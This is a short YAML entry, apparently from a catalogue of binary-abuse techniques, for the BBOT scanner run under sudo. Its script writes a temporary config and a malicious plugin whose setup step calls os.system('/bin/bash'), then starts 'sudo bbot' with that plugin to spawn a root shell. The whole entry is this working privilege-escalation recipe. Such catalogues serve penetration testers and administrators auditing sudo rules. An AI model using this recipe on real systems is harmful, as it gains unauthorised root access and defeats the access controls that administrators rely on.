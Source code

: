 ```yaml
---
functions:
  sudo:
    - description: This command creates a couple of malicious YML config files and BBOT plugins, then inits BBOT and triggers the malicious plugin.
      code: |
        TEMP_YMLCONF=$(mktemp /tmp/XXXXXXXX.yml)
        TEMP_PLUGINDIR=$(mktemp -d /tmp/XXXXXXXX)
        TEMP_PLUGIN=$TEMP_PLUGINDIR/init_userbash.py
        TEMP_OUTDIR=$(mktemp -d /tmp/XXXXXXXX)
        PLUGIN_NAME=init_userbash
        cat << EOF > $TEMP_YMLCONF
        targets: localhost
        output_dir: $TEMP_OUTDIR
        module_dirs: $TEMP_PLUGINDIR
        EOF
        cat << EOF > $TEMP_PLUGIN
        import os
        from bbot.modules.base import BaseModule
        class init_userbash(BaseModule):
            async def setup(self):
                self.hugeinfo(f"[*] Starting a new user shell ......")
                os.system("/bin/bash")
            async def handle_event(self, event):
                self.hugeinfo(f"[*] Exiting shell ......")
        EOF
        sudo bbot -p $TEMP_YMLCONF -m $PLUGIN_NAME -t localhost
---
```

